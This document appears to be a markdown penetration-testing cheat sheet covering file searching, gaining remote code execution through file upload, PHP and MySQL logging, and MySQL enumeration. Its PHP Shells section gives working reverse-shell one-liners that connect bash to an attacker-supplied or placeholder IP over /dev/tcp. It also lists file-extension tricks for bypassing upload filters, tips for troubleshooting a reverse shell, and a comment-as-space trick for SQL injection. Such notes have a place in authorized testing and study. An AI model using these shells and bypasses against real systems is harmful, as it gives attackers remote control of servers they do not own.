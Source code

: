 # Summary
* [Searching](##Searching)
* [RCE](##RCE)
* [PHP](##PHP)
* [MySQL](##MySQL)

## Searching
* Looking for a specific file
``` 
sudo find / -name "specificfile.txt"
```
* grep 
	* -r: recursive
	* -n: number
	* -i: ignore case

## RCE
Some notes about Remote Code Execution

### File Upload
Some considerations when trying to gain RCE through File Upload
1. Use the victim box to look for the file that was uploaded
```
sudo find / -name "uploadedfile.txt"
```
2. Find the web root by triggering information disclosure
3. Try to upload file to tmp directory then web root
4. Bypass file extension filter 

## PHP
* Turn on logging
```
// Uncomment the following line to /etc/php5/apache2/php.ini
$ sudo vi /etc/php5/apache2/php.ini
display_errors = On

// Restart the apache service 
$ sudo systemctl restart apache2
```

### PHP Shells
* User Supplied IP and Port
```php
<?php $ip=$_GET['ip']; $port=$_GET['port']; $string = \"/bin/bash -c 'bash -i >& /dev/tcp/\".$ip.\"/\".$port.\" 0>&1'\"; exec($string); ?>
```
* Hardcoded IP and Port
```php
<?php exec(\'/bin/bash -c \"bash -i >& /dev/tcp/<<ATTACKER IP>>/<<PORT>> 0>&1\"\'); ?>
```

### Extensions
* .phtml 
* .PHP
* .php;.txt
* .php%00

### Tips for troubleshooting reverse shell
* ssh into victim box and test out bash command 
* Run php from the box directly
```
$ php -f phpshell.php
```
* Attempt port 443
* Try a different shell
* Confirm OS (Linux or Windows)

## MySQL
* Turn on logging
```
// Uncomment the following line in /etc/mysql/my.cnf
$ sudo nano /etc/mysql/my.cnf
general_log_file = /var/log/mysql/mysql.log

// Restart mysql
$ sudo systemctl restart mysql

// Review log file
$ sudo tail -f /var/log/mysql/mysql.log
```
* Logging in
```
mysql -uroot -p
```
* Alternative to space 
```
/**/
```
* Get MySQL version
```
select version();
```
* [Common Queries](https://github.com/sqlmapproject/sqlmap/blob/c9ab8ae60e06ca3cd53f1ea80f79bcb65387cef9/xml/queries.xml)
* Finding and pulling a specific value
```
mysql> show databases;
mysql> use [database_name];
mysql> show tables;
mysql> describe [table_name];
mysql> select [table_column] from [database_name].[table_name] LIMIT 0,1;
```
